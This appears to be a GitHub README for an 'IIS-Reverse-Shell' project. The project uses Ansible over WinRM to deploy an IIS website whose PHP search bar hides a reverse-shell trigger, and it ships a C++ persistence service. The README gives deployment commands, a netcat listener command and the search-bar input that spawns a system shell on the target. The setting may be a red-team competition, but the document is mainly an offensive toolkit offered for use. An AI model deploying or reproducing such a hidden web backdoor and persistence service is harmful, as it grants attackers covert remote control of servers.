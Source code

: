 # IIS-Reverse-Shell

## Overview
This project demonstrates setting up a reverse shell on an IIS server. It includes:

- **Ansible Playbooks**: Automate the deployment and configuration of the IIS server.
- **PHP Scripts**: Facilitate the reverse shell functionality.
- **Website Content**: HTML and related assets for the web interface.

## Repository Structure

<pre>IIS-Reverse-Shell/
├── Ansible/
│   ├── iis_setup.yml
│   ├── inventory.yml
│   └── ansible.cfg
├── Images/
│   └── UB_Lockdown/
│       ├── gallery1.jpg
│       ├── gallery2.jpg
│       ├── gallery3.jpg
│       ├── Sponsor1.png
│       └── logo.png
├── PHP/
│   ├── contact.php
│   ├── search.php
│   └── php.ini
├── Persistence/
│   ├── webmgr.cpp
│   └── webmgr.exe
└── Website/
    ├── UB_Lockdown.html
    ├── button.js
    └── web.config
</pre>

### Directory Breakdown
- **`Ansible/`**: Contains playbooks and inventory files for automating server setup.
- **`Images/UB_Lockdown/`**: Directory with images used in the website.
- **`PHP/`**: Contains the PHP script for the reverse shell.
- **`Persistence/`**: Contains the C++ executable service that maintains persistence on the server.
- **`Website/`**: HTML and CSS files for the website's frontend.

## Setup Instructions

### Prerequisites
- **Ansible**: Installed on the control machine.
- **Windows Server**: With WinRM running and enabled.
- **Network Configuration**: Ensure the server is accessible and that required ports are properly configured.
- **Required Ansible Packages**:
  ```sh
  ansible-galaxy collection install ansible.windows community.windows
  pip install pywinrm
  ```

### Steps

## 1. Clone the Repository
```bash
cd ~
git clone https://github.com/Lcdemi/IIS-Reverse-Shell
cd IIS-Reverse-Shell/Ansible
```

## 2. Configure Ansible Inventory
Edit the inventory.yml file to include your server's details:

```yaml
all:
  hosts:
    [IP_1]
    [IP_2]
    ...
    [IP_X]
  vars:
    ansible_user: your_username
    ansible_password: your_password
    ansible_connection: winrm
    ansible_port: 5985
    ansible_winrm_transport: ntlm
    ansible_winrm_server_cert_validation: ignore
```

## 3. Run the Ansible Playbook
To set up the IIS server and deploy the website, execute the following command:

```sh
ansible-playbook -i inventory.yml iis_setup.yml
```

## 4. Spawn a Reverse Shell
To spawn a reverse shell, follow these steps:

1. **Set Up a Listener**: On your machine, start a listener using a tool like `netcat`. For example:
   ```bash
   nc -lvnp [PORT]
   ```
2. **Trigger the Reverse Shell**: Once the deployment is complete, open your browser and navigate to: http://your_server_ip/. On the deployed website, locate the search bar. Enter the following command:
    ```html
    search [YOUR_IP] [PORT]
    ```
    Replace `[YOUR_IP]` with your machine's IP address and `[PORT]` with the port you are listening on (e.g., `8080`).

3. **Gain Access**: Once the command is executed, a system shell will be spawned, and you will have access to the target machine.
